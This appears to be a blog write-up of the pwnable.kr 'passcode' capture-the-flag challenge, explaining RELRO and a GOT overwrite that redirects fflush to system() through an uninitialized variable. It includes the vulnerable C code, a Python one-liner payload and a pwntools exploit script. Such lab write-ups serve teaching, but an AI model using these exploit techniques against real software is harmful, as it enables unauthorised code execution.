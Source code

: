 ```yaml
---
layout: post
title: "pwnable.kr: passcode"
date: 2018-09-01 18:01:00 -0500
published: true
---
```


* Partial RELRO means you can do GOT overwrites.
* Full RELRO blocks them (marks the page as read-only after symbol
resolution)

---

Learned a lot from
https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html and
https://www.akashtrehan.com/writeups/pwnablekr_todders_bottle/.

The point of this challenge is to teach you about GOT overwrites.

There's a `.plt.got` and `.got.plt` section. I hate computers. `.got.plt`
is the one that you want, as it contains addresses of library functions or
addresses of code to call the linker to go resolve those addresses.

---

```
void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

---

	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
	scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
			printf("Login OK!\n");
			system("/bin/cat flag");
	}
	else{
```

```
passcode@ubuntu:~$ ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : ian
Welcome ian!
enter passcode1 : 3
Segmentation fault
```

First glance reading the code: `fflush(stdin)` is weird. It can be used to
discard input that's buffered, but not yet printed to screen, but it's
nonstandard.

Second glance: `scanf("%d", passcode1);` should be `&passcode1`.
Recompiling the code throws a warning that makes this obvious. 

Maxing out the name buffer leaves the last 4 bytes in the uninitialized
`passcode1` location. So, we can write any address we want there, and the
first `scanf` will write the next value into that address.

We can't reach `passcode2` via the buffer, though (it's not long enough).
You might consider overwriting the return address of login, but that won't
work, because we can't be able to get through the second `printf()` without
segfaulting.  But! We have the suspicious `fflush`.

`fflush` is libc, so we can do a GOT overwrite and simply replace its
address with that of `system()` in the `text` section of the binary.

So, we:
 * Write `"A"*96 + little_endian(GOT address for fflush)`
 * Write the address we want to jump to (`system` in the binary)

One-liner:
 * `python -c 'print "A"*96 + "\x04\xa0\x04\x08" + "\n" + str(0x80485d7)' | ./passcode`

pwntools script:
```
from pwn import *

# context.log_level = 'debug'

p = process("/home/passcode/passcode")
print util.proc.pidof(p)
# pause() # gdb connect

p.sendline("A"*96 + p32(0x804a004)) # GOT address for fflush

p.sendline(str(0x80485d7)) # address of system()
# p.interactive() # dumps everything. I'm kinda unsure how to fetch the
# output otherwise.
print p.recvall() # jk this does it.
```
